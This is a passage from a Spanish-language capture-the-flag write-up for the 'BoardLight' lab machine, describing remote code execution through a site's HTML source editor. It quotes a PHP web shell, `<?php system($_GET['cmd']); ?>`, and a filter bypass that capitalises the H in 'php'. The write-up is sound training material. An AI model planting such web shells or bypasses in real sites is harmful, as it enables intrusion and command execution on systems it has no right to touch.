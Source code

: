 Pero si voy a `Edit HTML source`

![Explotacion](../assets/images-BoardLight/Explotacion5.png)

e inyecto un código PHP con el cual mediante el parámetro `cmd` pueda ejecutar comandos a nivel de sistema, al intentar `<?php system($_GET['cmd']); ?>` no me dejaba emplear system, pero para bypasear esta restricción solo debemos poner en mayúscula la H de php 

![Explotacion](../assets/images-BoardLight/Explotacion7.png)

Una vez editado el código HTML e inyectando codigo PHP podemos visualizar la pagina y ver que si nos interpreta el codigo PHP

![Explotacion](../assets/images-BoardLight/Explotacion8.png)

y contentando con & al final de la URL el parámetro cmd ,  puedo ejecutar comandos a nivel de sistema.
- Nota: la explotación se debe de hacer rápido ya que por detrás debe de existir una tarea cron que borra las paginas web, por lo tanto si eso sucede se deberá de hacer nuevamente todo el procedimiento.

![Explotacion](../assets/images-BoardLight/Explotacion9.png)
